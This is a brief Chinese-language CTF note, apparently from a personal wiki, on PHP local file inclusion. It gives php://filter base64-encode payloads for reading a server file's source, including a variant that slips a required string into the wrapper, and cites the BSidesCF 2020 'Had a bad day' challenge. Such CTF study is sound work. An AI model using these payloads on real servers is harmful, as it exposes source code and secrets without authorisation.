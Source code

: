```php
php://filter/read=convert.base64-encode/resource=<filename>
```
另外，如果服务端要求参数中包含特定字符串时，可以利用下面的trick
```php
php://filter/read=convert.base64-encode/write=<required_string>/resource=<filename>
```
参考[[[BSidesCF 2020]Had a bad day]]

#Web #PHP #伪协议 #LFI #encoding 